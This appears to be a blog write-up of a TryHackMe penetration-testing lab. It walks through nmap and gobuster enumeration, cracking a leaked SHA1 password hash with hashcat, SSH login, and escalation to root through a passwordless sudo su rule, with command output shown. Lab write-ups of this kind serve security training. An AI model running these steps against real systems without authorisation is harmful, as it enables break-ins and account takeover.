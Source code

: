 ```yaml
---
layout: post
current: post
cover: 'assets/images/ccpentesting/cover.png'
navigation: True
title: "CC: Pentesting Write Up"
date: 2020-12-08 00:00:00
tags: [tryhackme, ctf, easy]
class: post-template
subclass: 'post'
author: darryn
---
```

![CCPentesting](/assets/images/ccpentesting/cover.png)

### Overview

[CC:Pen Testing](https://tryhackme.com/room/ccpentesting) is a guided room on [TryHackMe](https://tryhackme.com) providing an introduction to some of the common penetration testing tools. Its really well layed out and I recommend to anyone starting out in penetration testing or CTF challenges. This write up will only cover the steps for the final exam.

### Nmap

As normal, I kicked off a nmap scan to see what ports are available.

```highlight
└──╼ $sudo nmap -sC -sV -oA initial 10.10.215.190
[sudo] password for daz: 
Starting Nmap 7.80 ( https://nmap.org ) at 2020-12-08 21:42 GMT
Nmap scan report for 10.10.215.190
Host is up (0.027s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 12:96:a6:1e:81:73:ae:17:4c:e1:7c:63:78:3c:71:1c (RSA)
|   256 6d:9c:f2:07:11:d2:aa:19:99:90:bb:ec:6b:a1:53:77 (ECDSA)
|_  256 0e:a5:fa:ce:f2:ad:e6:fa:99:f3:92:5f:87:bb:ba:f4 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

2 Ports open:

- 22 - SSH - Banner is showing its an Ubuntu machine
- 80 - HTTP - Apache web server version 2.4.18

I also ran a full port scan but no additional ports were found.

### Enumeration

The web page displays the basic apache page, I checked the source code but everything was standard. I kicked off a gobuster to see what other directories were available.

```highlight
└──╼ $gobuster dir -u http://10.10.215.190 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 50
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.215.190
[+] Threads:        50
[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2020/12/08 21:49:12 Starting gobuster
===============================================================
/secret (Status: 301)
/server-status (Status: 403)
===============================================================
2020/12/08 21:51:09 Finished
===============================================================
```

One directory found '/secret', going to secret doesn't display anything. I ran a second gobuster but this time in the secret folder and checked for .log, .txt and .html using the -x flag.

```highlight
└──╼ $gobuster dir -u http://10.10.215.190/secret -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 50 -x log,txt,html
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.215.190/secret
[+] Threads:        50
[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Extensions:     log,txt,html
[+] Timeout:        10s
===============================================================
2020/12/08 21:55:16 Starting gobuster
===============================================================
/index.html (Status: 200)
/secret.txt (Status: 200)
Progress: 49450 / 220561 (22.42%)^C
[!] Keyboard interrupt detected, terminating.
===============================================================
2020/12/08 21:59:31 Finished
===============================================================
```

### Initial Access

1 additional file found, secret.txt. Web browsing to http://10.10.215.190/secret/secret.txt I could see the contents of the file:

nyan:046385855FC9580393853D8E(REDACTED)

The password looks to be SHA1. I put the hash in to a file called hash.txt on my VM and ran hashcat with the command: hashcat -m 100 hash.txt /usr/share/wordlists/rockyou.txt --force

Hashcat was successfully able to crack the hash and I was able to SSH in to the machine.

### Priv Esc

Once connected via SSH I ran 'sudo -l', the user nyan is able to run the command /bin/su as root without providing a password. This provides a simple privesc by using the command: 'sudo su' 

Other techniques like this can be found on [gtfobins](https://gtfobins.github.io).

```highlight
nyan@ubuntu:~$ sudo -l
Matching Defaults entries for nyan on ubuntu:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User nyan may run the following commands on ubuntu:
    (root) NOPASSWD: /bin/su
nyan@ubuntu:~$
nyan@ubuntu:~$ sudo su
root@ubuntu:/home/nyan# id
uid=0(root) gid=0(root) groups=0(root)
root@ubuntu:/home/nyan# 
```

Thanks for reading!

============================================================

Any comments or feedback welcome! You can find me on [twitter](https://twitter.com/dazbrownfield).

<a href="https://www.buymeacoffee.com/dazbrownfield" target="_blank"><img src="https://cdn.buymeacoffee.com/buttons/v2/default-blue.png" alt="Buy Me A Coffee" style="height: 60px !important;width: 217px !important;" ></a>

